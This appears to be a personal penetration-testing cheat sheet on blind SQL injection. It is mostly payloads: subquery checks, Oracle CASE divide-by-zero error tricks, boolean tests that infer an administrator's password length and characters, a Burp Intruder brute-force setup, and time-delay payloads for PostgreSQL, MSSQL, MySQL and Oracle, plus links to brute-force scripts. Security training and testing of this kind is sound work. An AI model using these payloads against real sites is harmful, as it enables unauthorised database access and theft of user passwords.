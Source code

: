 # BlindSQL:
Truth must be "infered" generally with a sleep function, a 500 response, or DNS callout to webhooks/collaborator

Once we can get an injection, we need to confirm that the server is interpreting the injection as a valid query. This is done with a subquery.  
We initially send an empty query, if a 500 is returned, we may need to complete the query by selecting from a db. Ifreceive an error, this indicates that the target is probably using an Oracle database, which requires all SELECT statements to explicitly specify a table name.
`' ||(select '')||'`  
`' ||(select '' from dual)||'`  
We can then start to infer information, such as the existence of `users`  
`'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`
We weaponise this using the CASE statement, which will test a condition and if true/false will evaluate an expression.  
So, in the event that CASE comes out TRUE, we divide by 0 - causing an error.  
`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`  
Now we start to infer the existence of information (users, passwords, tables, etc)  
`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`  
`'||(SELECT CASE WHEN length(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'` 
Length of password  
`'||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'. Then send: TrackingId='||(SELECT CASE WHEN LENGTH(password)>3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`


#### Testing booleans (for BSQLi)
Remember to try `AND` `OR` `HAVING`  
we can test the ability bruteforce/presence of users by selecting a char, limiting to 1 and then comparing, so the below would become `a=a`  
`b' OR (select 'a' from users limit 1)='a`  
Now we can take a step further and confirm we have a user called "Administrator"  
`b' OR (select 'a' from users where username='administrator')='a`  
The ball keeps on rolling, and we can begin the makings of bruteforce attack by testing the length of password  
`b' OR (select 'a' from users where username='administrator' and length(password)>1)='a;`  
Once we have the length of the password we can bruteforce with a python script or intruder.
For intruder we use cluster bomb, and use the grep option to flag responses we know differ in `FALSE` and `TRUE`  
`b' OR (select substring (password,§1§,1) from users where username='administrator')='§a§`  

#### sleep examples
postgresql  
  * `'||pg_sleep(10)--`  
mssql  
  * `if 1=1 waitfor delay'0:0:08'--`  
  * `' if(SUBSTRING(VERSION(),'1','0')=='{c}') waitfor delay'0:0:08'--`  
mysql
  * `1-SLEEP(15)`
  * `1-BENCHMARK(100000000, rand())`
  * `1-IF(MID(VERSION(),1,1) = '5', SLEEP(15), 0)`
sqlserver
 * `1; WAIT FOR DELAY '00:00:15'`
 * `1; IF SYSTEM_USER='sa' WAIT FOR DELAY '00:00:15'`
oracle #DOES NOT support stacked queries, if you come accross this you will to inject into PL/SQL code block
 * `BEGIN DBMS_LOCK.SLEEP(15); END;`

#### Example PoCs: 
[BlindSQLI Brute](https://github.com/kymb0/General_code_repo/blob/master/Code_templates/bruteforce_blindsqli.py)  
[BlindNOsqli Brute](https://github.com/kymb0/General_code_repo/blob/master/Code_templates/brute_mongoDB_nosqli.py)  
